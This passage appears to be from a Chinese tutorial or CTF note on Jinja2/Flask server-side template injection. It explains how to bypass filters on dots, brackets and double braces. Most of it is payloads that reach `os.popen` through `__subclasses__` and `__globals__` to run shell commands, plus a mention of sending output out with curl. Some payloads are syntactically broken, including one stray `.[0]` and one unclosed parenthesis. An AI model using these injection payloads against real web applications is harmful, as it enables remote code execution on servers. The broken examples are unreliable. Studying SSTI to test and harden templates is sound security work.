#### 过滤了点`.`

##### 利用`|attr()`绕过

`|attr()`为jinja2原生函数，是一个过滤器，它只查找属性获取并返回对象的属性的值，过滤器与变量用管道符号（ `|` ）分割，它不止可以绕过点。所以可以直接利用，即

```
().__class__   相当于  ()|attr("__class__")
```

构造一个

```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

过滤后为

```
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}
```

`|attr()`配合其他绕过方法可以同时绕过下划线、引号、点、中括号等。

##### 利用中括号`[]`绕过

使用中括号直接进行拼接

```
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}
```

过滤后为

```
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

同时，我们可以发现,这样绕过点之后，我们几乎所有的关键字都成了字符串，我们就可以用上面的一些方法绕过了，比如hex编码，这样我们几乎可以绕过全部的过滤。

##### 过滤了大括号`{{`

我们可以用Jinja2的`{%...%}`语句装载一个循环控制语句来绕过，这里我们在一开始认识flask的时候就学习了：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}
```

这里在一开始的时候通过`{%...%}`载入了两个循环语句，通过for和if遍历函数，寻找出`'catch_warnings'`这一命令然后将其命名为c，再通过找出的c命令组合构造语句，执行命令，最后用在引入两个end语句来终止前面的for和if的循环语句。

也可以使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 将执行结果外带（不外带的话无回显）出来：

```
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}
```
